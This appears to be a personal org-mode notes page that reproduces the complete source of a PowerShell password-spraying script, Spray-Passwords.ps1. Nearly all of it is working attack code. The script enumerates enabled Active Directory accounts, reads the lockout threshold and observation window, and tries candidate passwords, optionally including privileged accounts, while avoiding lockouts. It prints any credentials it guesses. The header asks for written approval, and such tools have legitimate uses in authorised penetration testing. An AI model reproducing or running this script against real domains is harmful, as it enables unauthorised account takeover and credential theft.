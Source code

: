:PROPERTIES:
:ID:       d7768ed2-25de-4a9b-92d1-4e419dcf6edc
:END:
#+title: PowerShell - Password Spray
#+hugo_base_dir:../


* Password Spray
#+begin_src shell -n
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.

    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.

    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
    Perform password spraying attack against user accounts in Active Directory.
  .PARAMETER Pass
    Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'. Do not use together with File or Url."

  .PARAMETER File
    Supply a path to a password input file to test multiple passwords for each targeted user account. Do not use together with Pass or Url.

  .PARAMETER Url
    Download file from given URL and use as password input file to test multiple passwords for each targeted user account. Do not use together with File or Pass.

  .PARAMETER Admins
    Warning: will also target privileged user accounts (admincount=1.)". Default = $false.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016'
    1. Test the password 'Summer2016' against all active user accounts, except privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins
    1. Test the password 'Summer2016' against all active user accounts, including privileged user accounts (admincount=1).
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose

    1. Test each password in the file 'passwords.txt' against all active user accounts, except privileged user accounts (admincount=1).
    2. Output script progress/status information to console.
  .EXAMPLE
    PS C:\> .\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/ZilentJack/Get-bADpasswords/master/BadPasswords.txt' -Verbose

    1. Download the password file with weak passwords.
    2. Test each password against all active user accounts, except privileged user accounts (admincount=1).
    3. Output script progress/status information to console.
  .LINK
    Get latest version here: https://github.com/ZilentJack/Spray-Passwords
  .NOTES
    Authored by    : Jakob H. Heidelberg / @JakobHeidelberg / www.improsec.com
    Together with  : CyberKeel / www.cyberkeel.com
    Date created   : 09/05-2016
    Last modified  : 26/06-2016
    Version history:
    - 1.00: Initial public release, 26/06-2016
    Tested on:
     - WS 2016 TP5
     - WS 2012 R2
     - Windows 10
    Known Issues & possible solutions/workarounds:
     KI-0001: -
       Solution: -
    Change Requests for vNext (not prioritized):
     CR-0001: Support for Fine-Grained Password Policies (FGPP).
     CR-0002: Find better way of getting Default Domain Password Policy than "NET ACCOUNTS". Get-ADDefaultDomainPasswordPolicy is not en option as it relies on RSAT.
     CR-0003: Threated approach to test more user/password combinations simultaneously.
     CR-0004: Exception or include list based on username, group membership, SID's or the like.
     CR-0005: Exclude user account that executes the script (password probably already known).
    Verbose output:
     Use -Verbose to output script progress/status information to console.
#>

[CmdletBinding(DefaultParameterSetName='ByPass')]
Param
(
    [Parameter(Mandatory = $true, ParameterSetName = 'ByURL',HelpMessage="Download file from given URL and use as password input file to test multiple passwords for each targeted user account.")]
    [String]
    $Url = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByFile',HelpMessage="Supply a path to a password input file to test multiple passwords for each targeted user account.")]
    [String]
    $File = '',

    [Parameter(Mandatory = $true, ParameterSetName = 'ByPass',HelpMessage="Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'")]
    [AllowEmptyString()]
    [String]
    $Pass = '',

    [Parameter(Mandatory = $false,HelpMessage="Warning: will also target privileged user accounts (admincount=1.)")]
    [Switch]
    $Admins = $false

)

# Method to determine if input is numeric or not
Function isNumeric ($x) {
    $x2 = 0
    $isNum = [System.Int32]::TryParse($x, [ref]$x2)
    Return $isNum
}

# Method to get the lockout threshold - does not take FGPP into acocunt
Function Get-threshold
{
    $data = net accounts
    $threshold = $data[5].Split(":")[1].Trim()

    If (isNumeric($threshold) )
        {
            Write-Verbose "threshold is a number = $threshold"
            $threshold = [Int]$threshold
        }
    Else
        {
            Write-Verbose "Threshold is probably 'Never', setting max to 1000..."
            $threshold = [Int]1000
        }

    Return $threshold
}

# Method to get the lockout observation window - does not tage FGPP into account
Function Get-Duration
{
    $data = net accounts
    $duration = [Int]$data[7].Split(":")[1].Trim()
    Write-Verbose "Lockout duration is = $duration"
    Return $duration
}

# Method to retrieve the user objects from the PDC
Function Get-UserObjects
{
    # Get domain info for current domain
    Try {$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()}
    Catch {Write-Verbose "No domain found, will quit..." ; Exit}

    # Get the DC with the PDC emulator role
    $PDC = ($domainObj.PdcRoleOwner).Name

    # Build the search string from which the users should be found
    $SearchString = "LDAP://"
    $SearchString += $PDC + "/"
    $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
    $SearchString += $DistinguishedName

    # Create a DirectorySearcher to poll the DC
    $Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
    $objDomain = New-Object System.DirectoryServices.DirectoryEntry
    $Searcher.SearchRoot = $objDomain

    # Select properties to load, to speed things up a bit
    $Searcher.PropertiesToLoad.Add("samaccountname") > $Null
    $Searcher.PropertiesToLoad.Add("badpwdcount") > $Null
    $Searcher.PropertiesToLoad.Add("badpasswordtime") > $Null

    # Search only for enabled users that are not locked out - avoid admins unless $admins = $true
    If ($Admins) {$Searcher.filter="(&(samAccountType=805306368)(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    Else {$Searcher.filter="(&(samAccountType=805306368)(!(admincount=1))(!(lockoutTime>=1))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))"}
    $Searcher.PageSize = 1000

    # Find & return targeted user accounts
    $userObjs = $Searcher.FindAll()
    Return $userObjs
}

# Method to perform auth test with specific username and password
Function Perform-Authenticate
{
    Param
    ([String]$username,[String]$password)

    # Get current domain with ADSI
    $CurrentDomain = "LDAP://"+([ADSI]"").DistinguishedName

    # Try to authenticate
    Write-Verbose "Trying to authenticate as user '$username' with password '$password'"
    $dom = New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
    $res = $dom.Name

    # Return true/false
    If ($res -eq $null) {Return $false}
    Else {Return $true}
}

# Validate and parse user supplied url to CSV file of passwords
Function Parse-Url
{
    Param ([String]$url)

    # Download password file from URL
    $data = (New-Object System.Net.WebClient).DownloadString($url)
    $data = $data.Split([environment]::NewLine)

    # Parse passwords file and return results
    If ($data -eq $null -or $data -eq "") {Return $null}
    $passwords = $data.Split(",").Trim()
    Return $passwords
}

# Validate and parse user supplied CSV file of passwords
Function Parse-File
{
   Param ([String]$file)

   If (Test-Path $file)
   {
        $data = Get-Content $file

        If ($data -eq $null -or $data -eq "") {Return $null}
        $passwords = $data.Split(",").Trim()
        Return $passwords
   }
   Else {Return $null}
}

# Main function to perform the actual brute force attack
Function BruteForce
{
   Param ([Int]$duration,[Int]$threshold,[String[]]$passwords)

   #Setup variables
   $userObj = Get-UserObjects
   Write-Verbose "Found $(($userObj).count) active & unlocked users..."

   If ($passwords.Length -gt $threshold)
   {
        $time = ($passwords.Length - $threshold) * $duration
        Write-Host "Total run time is expected to be around $([Math]::Floor($time / 60)) hours and $([Math]::Floor($time % 60)) minutes."
   }

   [Boolean[]]$done = @()
   [Boolean[]]$usersCracked = @()
   [Int[]]$numTry = @()
   $results = @()

   #Initialize arrays
   For ($i = 0; $i -lt $userObj.Length; $i += 1)
   {
        $done += $false
        $usersCracked += $false
        $numTry += 0
   }

   # Main while loop which does the actual brute force.
   Write-Host "Performing brute force - press [q] to stop the process and print results..." -BackgroundColor Yellow -ForegroundColor Black
   :Main While ($true)
   {
        # Get user accounts
        $userObj = Get-UserObjects

        # Iterate over every user in AD
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]

                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else
                    {
                        $now = Get-Date

                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes

                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }

                            } # Time-diff if

                        }
                        Else
                        {
                            # Verbose-log if $badpwdtime in null. Possible "Cannot index into a null array" error.
                            Write-Verbose "- no badpwdtime exception '$samaccountnname':'$badpwdcount':'$badpwdtime'"



                                   # Try the auth with current password
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                                If ($auth -eq $true)
                                {
                                    Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                                    $results += $samaccountnname
                                    $results += $passwords[$numTry[$i]]
                                    $usersCracked[$i] = $true
                                    $done[$i] = $true
                                }
                                Else
                                {
                                    $numTry[$i] += 1
                                    If($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                                }



                        } # Badpwdtime-check if

                    } # Badwpdcount-check if

                } # Done-check if

            } # User-cracked if

        } # User loop

        # Check if the bruteforce is done so the while loop can be terminated
        $amount = 0
        For ($j = 0; $j -lt $done.Length; $j += 1)
        {
            If ($done[$j] -eq $true) {$amount += 1}
        }

        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
#+end_src
